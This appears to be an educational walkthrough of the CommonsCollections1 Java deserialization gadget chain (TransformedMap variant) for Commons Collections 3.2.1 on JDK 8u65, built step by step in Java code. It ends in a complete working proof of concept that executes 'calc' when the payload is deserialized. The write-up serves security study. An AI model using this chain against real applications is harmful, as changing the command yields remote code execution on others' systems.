








## 1. Vulnerability Audit Environment Setup

- **JDK Version**: [Java SE Development Kit 8u65](https://www.oracle.com/sg/java/technologies/javase/javase8-archive-downloads.html)（<= 8u72）

- **Maven Dependency**: Apache Commons Collections (<= 3.2.1)

    ```xml
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
    ```
    {: .nolineno}

- **OpenJDK**: [8u65](https://hg.openjdk.org/jdk8u/jdk8u/jdk/archive/af660750b2f4.zip) 


## 2. Pre-requisites

### 2.1 Transformer

`Transformer` is an interface in Apache Commons Collections used for transforming objects. It defines the method `transform(Object input)`, which takes an input object and returns a transformed result. It is the base interface used by various transformer classes in the exploitation chain.

```java
package org.apache.commons.collections;

public interface Transformer {

    public Object transform(Object input);

}
```
{: .nolineno file="org.apache.commons.collections.Transformer"}


### 2.2 InvokerTransformer

`InvokerTransformer` is a class that implements the `Transformer` interface and allows the invocation of methods on an object via reflection. It transforms an object by invoking a specified method (defined by method name, parameter types, and arguments) on that object. It is key in enabling dynamic method invocation, which is commonly leveraged in Java deserialization exploits.

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();
        Method method = cls.getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs);
    
    } catch (NoSuchMethodException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
    } catch (IllegalAccessException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
    } catch (InvocationTargetException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
    }
}
```
{: .nolineno file="org.apache.commons.collections.functors.InvokerTransformer"}


### 2.3 ConstantTransformer

`ConstantTransformer` is a class that implements the `Transformer` interface. It is used to return a constant value every time the `transform()` method is called. When initialized with a constant value, it always returns that value, regardless of the input object. In exploitation chains, it is commonly used to return control objects like `Runtime.class` or other key objects.

```java
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}

public Object transform(Object input) {
    return iConstant;
}
```
{: .nolineno file="org.apache.commons.collections.ConstantTransformer"}


### 2.4 TransformedMap

`TransformedMap` is a class in Apache Commons Collections that allows wrapping an existing map and applying transformation logic to the keys and values. When working with deserialization exploits, `TransformedMap` can be used to decorate an existing map, applying transformers like `InvokerTransformer` or `ConstantTransformer` to execute methods or return specific values upon map access or modification.

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```
{: .nolineno file="org.apache.commons.collections.map.TransformedMap"}


### 2.5 ChainedTransformer

`ChainedTransformer` is a class in Apache Commons Collections that allows chaining multiple transformers together. It holds an array of transformers and applies them in sequence to the input object. The output of one transformer is passed as the input to the next transformer. In exploitation chains, it is used to chain multiple transformations (e.g., invoking methods, returning specific values, etc.) to reach the desired outcome.

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```
{: .nolineno file="org.apache.commons.collections.ChainedTransformer"}


## 3. Process of Finding the Gadget Chain

First, for native Java deserialization to be exploitable, two conditions must be met: the entry class must implement the `Serializable` interface and override the `readObject` method. Only classes that implement the `Serializable` interface can be serialized and deserialized in Java, and only by overriding the `readObject` method can dangerous methods be triggered. Otherwise, no code can be invoked or executed, and exploitation is not possible. Therefore, the structure of the gadget chain looks something like this:



To construct such a gadget chain, we need to work backwards from the dangerous method. This approach is the simplest and fastest.


## 4. Gadget Chain Analysis

### 4.1 Identifying the Dangerous Method

We can follow gadget chain constructed by others to directly track the dangerous method. If we are building our own gadget chain, we will need to read the code to identify the dangerous methods.

In the CommonsCollections1 attack chain, the dangerous method is actually found in the `transform(Object input)` method of the `InvokerTransformer` class.

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();
        Method method = cls.getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs);
    
    } catch (NoSuchMethodException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
    } catch (IllegalAccessException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
    } catch (InvocationTargetException ex) {
        throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
    }
}
```
{: .nolineno file="org.apache.commons.collections.functors.InvokerTransformer"}


The `transform(Object input)` method allows for dynamically invoking any method of a class using reflection, by passing an object of any class. Since this method is public, we can attempt to invoke it directly to trigger an action, such as launching the calculator.

However, when creating an instance of the `InvokerTransformer` class, we notice that the constructor of this class is private and cannot be instantiated directly. In fact, the class provides two public `getInstance()` methods, both of which can return an instance of the `InvokerTransformer` class.

Parameters:

- `String methodName` – The name of the target method.
- `Class[] paramTypes` – The array of parameter types for the target method.
- `Object[] args` – The actual arguments to be passed when calling the target method.

```java
public static Transformer getInstance(String methodName) {
    if (methodName == null) {
        throw new IllegalArgumentException("The method to invoke must not be null");
    }
    return new InvokerTransformer(methodName);
}

public static Transformer getInstance(String methodName, Class[] paramTypes, Object[] args) {
    if (methodName == null) {
        throw new IllegalArgumentException("The method to invoke must not be null");
    }
    if (((paramTypes == null) && (args != null)) || ((paramTypes != null) && (args == null)) || ((paramTypes != null) && (args != null) && (paramTypes.length != args.length))) {
        throw new IllegalArgumentException("The parameter types must match the arguments");
    }
    if (paramTypes == null || paramTypes.length == 0) {
        return new InvokerTransformer(methodName);
    } else {
        paramTypes = (Class[]) paramTypes.clone();
        args = (Object[]) args.clone();
        return new InvokerTransformer(methodName, paramTypes, args);
    }
}
```
{: .nolineno file="org.apache.commons.collections.functors.InvokerTransformer"}


We can use the `getInstance(String methodName, Class[] paramTypes, Object[] args)` method to create an instance of the `InvokerTransformer` class that calls the `exec()` method. Then, by using the `transform(Object input)` method, we can pass an object of the `Runtime` class to invoke the `exec()` method.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});
            exec.transform(runtime);

        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}





### 4.2 Analyzing the Upper-Level Calls of transform()

Back to the `transform(Object input)` method, right-click the method name and select `Find Usages` to see where this method is called, looking for a function that calls `transform(Object input)` under a different name. Here, we trace it directly to the `checkSetValue(Object value)` method in the `TransformedMap` class.

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

This method returns and calls the `transform(Object input)` method of the `valueTransformer` member variable, which implements the `Transformer` interface. Since the value of `valueTransformer` is controllable when creating an instance of the `TransformedMap` class, we can assign it the `InvokerTransformer` object `exec` mentioned earlier. Then, using the `checkSetValue(Object value)` method obtained via reflection, we can invoke `exec.transform(Object input)`.

When creating an instance of the `TransformedMap` class, it can be observed that the constructor is of the `protected` type, meaning it cannot be instantiated directly. However, an instance of the `TransformedMap` class can be created through the `decorate()` method within the class.

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```

{: .nolineno file="org.apache.commons.collections.map.TransformedMap"}


Parameters:

- `Map map`: The original `Map` being decorated.
- `Transformer keyTransformer`: The logic for transforming the keys.
- `Transformer valueTransformer`: The logic for transforming the values.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});

            Class<?> transformedMapClass = Class.forName("org.apache.commons.collections.map.TransformedMap");
            Method checkSetValue = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
            checkSetValue.setAccessible(true);
            
            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("key", "value");
            Map<Object, Object> decorate = TransformedMap.decorate(hashMap, null, exec);
            checkSetValue.invoke(decorate, runtime);
            
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}




### 4.3 Analyzing the Upper-Level Calls of checkSetValue()

Continuing from the `checkSetValue(Object input)` method, right-clicking on the method name and selecting `Find Usages`, we trace it to the `setValue(Object value)` method of the internal class `MapEntry` in the `AbstractInputCheckedMapDecorator` class. This class is actually a parent class of the `TransformedMap` class, and its internal class implements the functionality for checking the mapping entries being added via the `setValue(Object value)` method.

```java
static class MapEntry extends AbstractMapEntryDecorator {
    
    /** The parent map */
    private final AbstractInputCheckedMapDecorator parent;
    
    protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }
    
    public Object setValue(Object value) {
        value = parent.checkSetValue(value);
        return entry.setValue(value);
    }
}
```
{: .nolineno file="org.apache.commons.collections.map.AbstractInputCheckedMapDecorator"}

Actually, the `setValue(Object value)` method is implemented by the `AbstractMapEntryDecorator` class, which implements the `Map` interface. The `MapEntry` class inherits from this class and overrides the method.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});

            Class<?> transformedMapClass = Class.forName("org.apache.commons.collections.map.TransformedMap");
            Method checkSetValue = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
            checkSetValue.setAccessible(true);

            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("key", "value");
            Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, exec);

            for (Map.Entry<Object, Object> entry : transformedMap.entrySet()) {
                entry.setValue(runtime);
            }
            
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}

When iterating over the `Map`, the `setValue(Object value)` method is called to modify the value in the `Map`, while the key remains unchanged. During this process, the `checkSetValue(Object value)` method of the constant `parent` is executed. By passing the `transformedMap` variable of the `TransformedMap` class, which is a subclass of `AbstractInputCheckedMapDecorator`, the `transformedMap.setValue(Object value)` method is triggered.




### 4.4 Analyzing the Upper-Level Calls of setValue()

Continuing from the `setValue(Object input)` method, right-click on the method name and select `find Usages`, find the `readObject(java.io.ObjectInputStream s)` method in the `AnnotationInvocationHandler` class. When deserializing an object of the `AnnotationInvocationHandler` class, this method is called, executing the code within it. The method contains the `setValue(Object input)` method, which, during deserialization, can trigger the complete deserialization exploit chain.

```java
private void readObject(java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException {
    
    s.defaultReadObject();
    
    // Check to make sure that types have not evolved incompatibly
    
    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }
    
    Map<String, Class<?>> memberTypes = annotationType.memberTypes();
    
    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
            }
        }
    }
}
```
{: .nolineno file="sun.reflect.annotation.AnnotationInvocationHandler"}

Since the scope of the `AnnotationTypeMismatchExceptionProxy` class is `default`, we cannot directly access the class or its constructor. This issue needs to be resolved through reflection.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Runtime runtime = Runtime.getRuntime();
            InvokerTransformer exec = (InvokerTransformer) InvokerTransformer.getInstance("exec", new Class[]{String.class}, new Object[]{"calc"});

            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("key", "value");
            Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, exec);

            Class<?> aihClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> aihClassConstructor = aihClass.getDeclaredConstructor(Class.class, Map.class);
            aihClassConstructor.setAccessible(true);
            aihClassConstructor.newInstance(Override.class, transformedMap);

        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}

After running the above code, it was found that the calculator did not run as expected. After debugging and analyzing the code, it was discovered that several conditions need to be satisfied before triggering the `setValue(Object input)` method:

- The `Runtime` object is not serializable.
- `memberType != null`.
- `!(memberType.isInstance(value) || value instanceof ExceptionProxy)`.
- The `Object input` is no longer controllable and is fixed to the type `AnnotationTypeMismatchExceptionProxy`.


First, solve the issue of the `Runtime` object not being serializable. Since the `Class` class implements the `java.io.Serializable` interface, we can first obtain the `Class` object for the `Runtime` class, then use reflection to access the `getRuntime()` and `exec()` methods, and finally generate the `Runtime` object.

```java
Class<Runtime> runtimeClass = Runtime.class;
Method getRuntime = runtimeClass.getMethod("getRuntime", null);
Runtime runtime = (Runtime) getRuntime.invoke(null, null);
Method execMethod = runtimeClass.getMethod("exec", String.class);
execMethod.invoke(runtime, "calc");
```
{: .nolineno}

Modify this code to use the `InvokerTransformer` class to dynamically invoke any method from the `Class` object of the `Runtime` class.

```java
Method getRuntime = (Method) new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
Runtime runtime = (Runtime) new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntime);
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
```
{: .nolineno}

Place these chained `InvokerTransformer` instances into a `Transformer[]` array, and then assign it to the `ChainedTransformer` class, so that these `InvokerTransformer` instances are connected together to achieve the desired behavior.

```java
Transformer[] transformers = new Transformer[]{
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```
{: .nolineno}

Then, to solve the issue of `memberType != null`, by reading the code we can deduce:

- `memberType` needs to be obtained from `memberTypes.get(name)`.
- `memberTypes` refers to the type of the properties in the annotation type we provided when creating the `AnnotationInvocationHandler` instance.
- `name` is the key in each key-value pair of the `memberValues` variable provided when creating the `AnnotationInvocationHandler` instance.
- To ensure `memberType != null`, the key name in `memberValues` should correspond to the property name in the annotation type, as this will prevent `get(name)` from returning null and instead return `ElementType[]`.
- When creating the `AnnotationInvocationHandler` instance, using `Target.class` and ensuring that the `memberValues` contains a key-value pair with the key `value` will solve this issue.

```java
package java.lang.annotation;

@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.ANNOTATION_TYPE)
public @interface Target {
    ElementType[] value();
}
```
{: .nolineno file="java.lang.annotation.Target"}

After further debugging, it was found that the condition `!(memberType.isInstance(value) || value instanceof ExceptionProxy)` was met. However, when running into the `if` code block, the line `memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));` throws an error.




During the debugging process, we can see that when the program executes to the `checkSetValue()` method, `valueTransformer.transform(value)` is actually `chainedTransformer.transform(value)`.



Here, we can make use of the previously introduced `ConstantTransformer` class by adding it to the `chainedTransformer` call chain. This is because the `transform()` method of this class will always return the `iConstant` value from its constructor, regardless of the parameter passed.

```java
public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}

public Object transform(Object input) {
    return iConstant;
}
```
{: .nolineno}

Since the `iConstant` value is controllable, we can set it to `Runtime.class`, allowing it to be passed to the subsequent `chainedTransformer` chain call, eliminating the need to focus on the value in `memberValue.setValue()`.

```java
package com.B1ng0OOO;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Demo {
    public static void main(String[] args) {
        try {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("value", "value");
            Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);

            Class<?> aihClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> aihClassConstructor = aihClass.getDeclaredConstructor(Class.class, Map.class);
            aihClassConstructor.setAccessible(true);
            Object object = aihClassConstructor.newInstance(Target.class, transformedMap);
            serialize(object);
            deserialize("serialize.bin");

        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static void serialize(Object object) {
        try (FileOutputStream fos = new FileOutputStream("serialize.bin");
             ObjectOutputStream oos = new ObjectOutputStream(fos)) {
            oos.writeObject(object);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static Object deserialize(String filename) {
        try (FileInputStream fis = new FileInputStream(filename);
             ObjectInputStream ois = new ObjectInputStream(fis)) {
            return ois.readObject();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}

At this point, the issues in the `TransformedMap` version of the gadget chain have been resolved, and the program runs as expected, achieving the desired effect.

Finally, summarize the execution sequence of this gadget chain:


